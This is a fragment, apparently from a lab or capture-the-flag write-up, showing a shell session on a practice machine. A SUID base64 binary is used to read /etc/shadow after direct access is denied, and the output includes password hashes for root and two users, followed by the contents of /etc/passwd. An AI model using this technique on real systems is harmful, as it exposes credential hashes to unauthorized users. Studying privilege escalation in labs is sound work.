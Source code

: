 ![](/grafika/base64_SUID.png)

```
[leonard@ip-10-10-58-95 ~]$ cat /etc/shadow
cat: /etc/shadow: Permission denied

[leonard@ip-10-10-58-95 ~]$ LFILE=/etc/shadow

[leonard@ip-10-10-58-95 ~]$ ./base64 "$LFILE" | base64 --decode
-bash: ./base64: No such file or directory

[leonard@ip-10-10-58-95 ~]$ /usr/bin/base64 "$LFILE" | base64 --decode
root:$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51::0:99999:7:::

leonard:$6$JELumeiiJFPMFj3X$OXKY.N8LDHHTtF5Q/pTCsWbZtO6SfAzEQ6UkeFJy.Kx5C9rXFuPr.8n3v7TbZEttkGKCVj50KavJNAm7ZjRi4/::0:99999:7:::

missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
```
```
[leonard@ip-10-10-58-95 ~]$ LFILE=/etc/passwd

[leonard@ip-10-10-58-95 ~]$ /usr/bin/base64 "$LFILE" | base64 --decode
root:x:0:0:root:/root:/bin/bash

leonard:x:1000:1000:leonard:/home/leonard:/bin/bash

missy:x:1001:1001::/home/missy:/bin/bash
```